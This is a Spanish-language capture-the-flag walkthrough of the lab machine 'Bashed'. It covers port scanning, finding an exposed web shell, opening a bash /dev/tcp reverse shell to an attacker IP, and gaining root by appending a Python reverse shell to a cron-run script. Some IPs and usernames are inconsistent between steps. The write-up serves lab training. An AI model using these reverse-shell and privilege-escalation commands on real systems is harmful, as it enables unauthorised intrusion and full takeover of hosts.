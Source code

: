 # Bashed 
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Bashed.png" alt="Bashed" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Locating recently modified files</li>
        <li>Basic web fuzzing techniques</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.1.89 -oG allports
```

```shell
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.68
http://10.10.10.68 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]    
```
Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-29 10:36 EDT
Nmap scan report for 10.10.10.68
Host is up (0.056s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds
```
Encontramos varios directorios donde podemos encontrar contenido interesante

## Revisamos la pag web

Cuando revisamos la web nos encontramos un post que se explica como se ha desarrollado una aplicación para hacer una `terminal en la web` y como usarla.

![alt text](Imagenes/Bashed1.png)

Como dice en el mensaje se esta desarrollando en el servidor por lo tanto nos hace pensar que el fichero se encuentra en el servidor y podemos usarlo.


Si examinamos los directorios anteriormente encontramos en la caperta `/dev` encotramos que el fichero existe y se esta ejecutando.

![alt text](Imagenes/Bashed2.png)

## Intrusion 

Como podemos ejecutar comandos ejecutamos el siguiente comando para entablar una revershell en nuestro equipo.

En la bash de la web ejecutamos lo siguiente teniendo en cuenta que el `&` tiene que estar url encodeado
```shell
bash -c "bash -i >%26 /dev/tcp/10.10.16.8/443 0>%261"
```
En otra terminal nos ponemos en escucha con nc:
```shell
nc -lvnp 443
```
Obtenemos un revershell.

## Tratamiento de la TTY
Como siempre hacemos el tratamiento de la TTY para ello realizamos lo siguiente

```
script /dev/null -c bash
CTRL Z
stty raw -echo; fg
reset xterm
```

De esta manera ya tendremos una terminal totalmetne interactiva además de que podemos ir al directorio `/home` y ver la flag de user.txt



## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:
```shell
sudo -l
```
Al parecer podemos ejecutar cualquier comando como `scriptmanager` por lo tanto vamos a cambiarnos a una shell con este usuario:

```shell
sudo -u scriptmaster bash
```
Una vez que somos el usuario scriptmaster vamos a intentar escalar privilegios al ususario `root`

- Buscamos algunos ficheros que tengamos permiso para ejecutar como root, sin embargo no encontramos nada interesante.

```shell
find / -perm 4000 -user root 2>/dev/null
```

```shell
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```
- Buscamos por capabilities , sin embargo no encontramos nada.

```shell
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
```
Por último voy a comprobar si que fichero y directorios tiene como ususario `scriptmanager`

```shell
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

obtenemos varios ficheros interesantes en la carpeta `/script`

```shell
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

Al parece el ususario root puede estar ejecutando cada cierto tiempo ese script, para comprobarlo podemos si hay alguna tarea asignada al ususario root con python.

```shell
root      10657  0.0  0.0   4508   700 ?        Ss   08:14   0:00 /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
root      10658  0.0  0.6  24560  6128 ?        S    08:14   0:00 python test.py
```
Efectivamente hay un tarea cron que ejecuta los scripts de esa carpeta con python por lo tanto si editamos el fichero con una revershell como se ejecuta como root obtendremos una shell con privilegios.

Por lo tanto añadimos la revershell en el fichero de la siguiente manera:
```shell
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.8/4444 0>&1\"')" >> test.py
```
De esta manera poniendonos en escucha por ese puerto obtendremos la bash.
